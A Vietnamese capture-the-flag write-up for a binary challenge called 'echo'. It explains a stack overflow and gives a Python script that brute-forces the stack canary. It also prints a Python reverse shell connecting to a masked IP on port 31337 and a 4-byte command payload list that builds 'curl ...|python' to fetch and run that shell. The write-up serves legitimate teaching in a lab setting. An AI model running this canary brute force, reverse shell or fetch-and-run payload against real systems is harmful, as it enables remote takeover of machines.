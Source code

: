 Đề cho t file **echo**</br>
![image](https://user-images.githubusercontent.com/23306492/40347441-7fa99dfe-5dca-11e8-9556-106b67a58c2d.png)</br>
 **enable** NX, canary</br>
![image](https://user-images.githubusercontent.com/23306492/40347475-a6df330c-5dca-11e8-9b4f-5e6e69d98fb8.png)</br>
Chương trình có 2 function chính : `fun()` nhập số luckynumber và `echo` nhâp  echo</br>
![image](https://user-images.githubusercontent.com/23306492/40347624-223ecf3a-5dcb-11e8-89f5-c7f42d267a8e.png)</br>
Trong hàm fun() `luckynumber = 0x0804B098`</br>
![image](https://user-images.githubusercontent.com/23306492/40347543-e06027f8-5dca-11e8-9330-e32dedb0bfdb.png)</br>
Trong hàm `echo()` </br> có lỗi stack overflow `n = recv(fd, &buf, 0x11Cu, 0);`</br>
![image](https://user-images.githubusercontent.com/23306492/40347603-0f1c8438-5dcb-11e8-829c-7cc099e316e9.png)</br>
Trước tiên thì ta cần `leak canary` sử dụng brute force. Tương tự như write up **codegate-prequels 2017 babypwn** [link](https://github.com/VulnHub/ctf-writeups/blob/master/2017/codegate-prequels/babypwn.md)
```
def leak_canary():
	canary = ""
	canary_offset = 0x100
	guess = 0x0
	buf = ""
	buf += "A" * canary_offset
	buf += canary
	while len(canary) < 4:
		while guess != 0xff:
			try:
				r = remote("localhost",12345)
				context.log_level = "critical"
				r.recvuntil("number: ")
				r.sendline(str(12345))
				r.recvuntil("Enter what you want to echo: ")
				r.send(buf + chr(guess))
				r.recvuntil("Bye bye!")
				print "Guessed correct byte:", format(guess, '02x')
				canary += chr(guess)
				buf += chr(guess)
				guess = 0x0
				r.close()
				break
			except EOFError,e:
				guess += 1
	return canary
```
![image](https://user-images.githubusercontent.com/23306492/40347714-6a405a24-5dcb-11e8-81db-a46cf987896a.png)</br>
Với bài này thì ta sử dụng system 4 byte để exploit. Tương tự như bài [babyfirst-revenge-v2 hitcon 2017](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/hitcon-ctf-2017/babyfirst-revenge-v2/exploit.py) và  [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)</br>
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("xxx.xxx.xxx.xxx",31337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
```
payload = [
# generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',
    # generate "curl xxx.xxx.xxx.xxx|python;"
    '>\;\\', 
    '>on\\', 
    '>th\\', 
    '>py\\', 
    '>\|\\', 
    '>xx\\', 
    '>x\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>x.\\', 
    '>xx\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 
    # got shell
    'sh x', 
    'sh g', 
]
```
[PAYLOAD](https://raw.githubusercontent.com/k4k4/SECATHON/master/echo/echo.py)</br>
![echo](https://user-images.githubusercontent.com/23306492/40348447-f1fff918-5dcd-11e8-87e3-a77bbd71d930.png)
